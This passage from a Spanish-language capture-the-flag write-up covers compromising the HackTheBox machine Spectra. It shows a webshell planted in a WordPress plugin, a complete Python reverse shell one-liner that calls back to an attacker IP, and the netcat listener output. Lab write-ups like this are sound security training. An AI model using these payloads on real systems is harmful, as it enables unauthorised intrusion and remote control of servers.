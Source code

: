 Tras modificar el plugin con la línea maliciosa, se accedió directamente al archivo modificado mediante la URL:
```plaintext
http://spectra.htb/main/wp-content/plugins/akismet/akismet.php?cmd=ls -l
```
Esto permitió ejecutar el comando ls -l en el servidor y visualizar el listado de archivos en el directorio actual, confirmando que la webshell está funcionando correctamente y que se tiene capacidad de ejecutar comandos arbitrarios en el sistema.
![9](/assets/img/machines/Spectra/9.jpeg)

## Python reverse shell
Para obtener una reverse shell más cómoda, se utilizó la webshell previamente implantada para ejecutar un payload en Python que establece una conexión inversa hacia la máquina atacante. El comando fue enviado mediante la URL:
```plaintext
http://spectra.htb/main/wp-content/plugins/akismet/akismet.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.6",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```


Mientras se enviaba el payload de la reverse shell, en la máquina atacante deje un listener activo. Tras ejecutar el comando, se estableció exitosamente una conexión, proporcionando acceso a una shell remota y confirmando el compromiso del servidor a través del vector web.
```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.229] 35734
$ 
```

Una vez establecida la reverse shell, se comenzó a explorar el sistema. Al navegar hacia el directorio /home, se encontraron varios usuarios configurados en la máquina: chronos, katie, nginx, root y user. Esto sugiere que podrían existir múltiples objetivos potenciales para escalada de privilegios o extracción de información sensible.
```bash
nginx@spectra /opt $ cd /home
nginx@spectra /home $ ls
chronos  katie	nginx  root  user
```
